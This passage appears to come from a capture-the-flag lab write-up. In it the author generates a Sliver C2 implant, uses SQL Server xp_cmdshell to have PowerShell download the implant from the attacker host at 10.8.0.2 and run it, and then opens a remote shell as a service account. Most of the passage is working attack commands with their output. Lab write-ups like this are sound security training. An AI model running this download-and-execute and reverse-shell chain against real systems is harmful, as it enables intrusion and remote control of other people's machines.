 ```c
sliver > generate --mtls 10.8.0.2:8888 --os windows --arch amd64 --disable-sgn --format exe --save /tmp/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 30s
[*] Implant saved to /tmp/HIGH_COMBINE.exe
```

```c
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

Then I created a directory on `C:\` to put my `Sliver payload` in.

```c
SQL (sa  dbo@master)> EXEC xp_cmdshell "mkdir C:\temp"
output   
------   
NULL
```

I downloaded the `binary` to the directory.

```c
SQL (sa  dbo@master)> EXEC xp_cmdshell "powershell iwr 10.8.0.2/HIGH_COMBINE.exe -o C:\temp\HIGH_COMBINE.exe"
```

And executed it.

```c
SQL (sa  dbo@master)> EXEC xp_cmdshell "C:\temp\HIGH_COMBINE.exe"
```

Instant callback made me happy.

```c
[*] Session ca96ccdb HIGH_COMBINE - 10.10.186.230:50591 (SQL) - windows/amd64 - Fri, 29 Mar 2024 08:29:33 EDT
```

```c
sliver > use ca96ccdb-1626-4557-89f6-b66446d652c4

[*] Active session HIGH_COMBINE (ca96ccdb-1626-4557-89f6-b66446d652c4)

sliver (HIGH_COMBINE) >
```

I swear I knew what I was doing...

```c
sliver (HIGH_COMBINE) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 4076

PS C:\Windows\system32> whoami
whoami
tengu\gmsa01$
```
